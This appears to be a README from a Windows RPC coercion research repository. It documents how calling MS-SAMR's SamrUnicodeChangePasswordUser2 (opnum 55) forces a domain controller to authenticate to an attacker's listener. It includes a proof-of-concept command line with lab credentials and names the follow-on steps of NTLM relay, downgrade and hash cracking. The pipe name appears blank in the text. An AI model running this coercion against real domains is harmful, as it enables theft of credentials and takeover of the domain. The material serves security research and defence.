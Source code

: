 # MS-SAMR - Remote call to SamrUnicodeChangePasswordUser2 (opnum 55)

## Summary

+ **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

+ **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`SamrUnicodeChangePasswordUser2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/acb3204a-da8b-478e-9139-1ea589edb880)

+ **Function operation number**: `55`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrUnicodeChangePasswordUser2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/acb3204a-da8b-478e-9139-1ea589edb880) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrUnicodeChangePasswordUser2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrUnicodeChangePasswordUser2(
   [in] handle_t BindingHandle,
   [in, unique] PRPC_UNICODE_STRING ServerName,
   [in] PRPC_UNICODE_STRING UserName,
   [in, unique] PSAMPR_ENCRYPTED_USER_PASSWORD NewPasswordEncryptedWithOldNt,
   [in, unique] PENCRYPTED_NT_OWF_PASSWORD OldNtOwfPasswordEncryptedWithNewNt,
   [in] unsigned char LmPresent,
   [in, unique] PSAMPR_ENCRYPTED_USER_PASSWORD NewPasswordEncryptedWithOldLm,
   [in, unique] PENCRYPTED_LM_OWF_PASSWORD OldLmOwfPasswordEncryptedWithNewNt
 );
```

## References

+ Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

+ Documentation of function `SamrUnicodeChangePasswordUser2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/acb3204a-da8b-478e-9139-1ea589edb880